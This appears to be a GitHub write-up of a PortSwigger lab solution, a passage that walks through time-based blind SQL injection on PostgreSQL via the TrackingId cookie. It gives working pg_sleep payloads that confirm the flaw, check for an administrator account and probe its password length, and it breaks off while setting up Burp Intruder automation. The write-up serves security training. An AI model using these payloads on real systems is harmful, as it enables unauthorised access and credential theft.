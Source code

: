 ## Lab Description:

<img width="862" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/b593862c-97bc-47ac-8b78-c7ebbe7b9612">

## Solution:



```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''```

Confirm that blind sql injection works -
Modify the cookie value

Since it is a POSTgreSQL , we use the following syntax

<img width="618" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/28baf726-8559-4775-bc2b-e33e502eda81">

```TrackingId=x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--```

We get response after 10 sec delay, which confirms the blind SQL injection vulnerability

<img width="1201" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/40887c22-2b4f-40a6-b8a3-424019a8bd06">


Change the boolean condition (1=2) to verify it

```TrackingId=x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--```

We get a response immediately which means the condition failed (1=2)

<img width="1203" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/0afdfc7e-fcc7-45ed-aaa5-f767da32a4da">

Verify administrator user exists -

```TrackingId=x';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--```

It takes 10 sec to respond which means there is indeed a user called administrator

<img width="1206" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/118aee65-2d2a-4a31-9ddd-2be53dd4accf">

Find the length of admin's password -
To determine how many characters are in the password of the administrator user. To do this, change the value to:

The below payload checks if the length is > 1.

```';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--```


<img width="1181" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/787cb2ff-f4c4-42c8-8b8b-48d91ae15b6a">


It takes 10 sec delay to respond which means it is > 1 character.

Automate this process,

Send the req to intruder
Add length of password part as payload (>1)
Payload type - Sniper
```
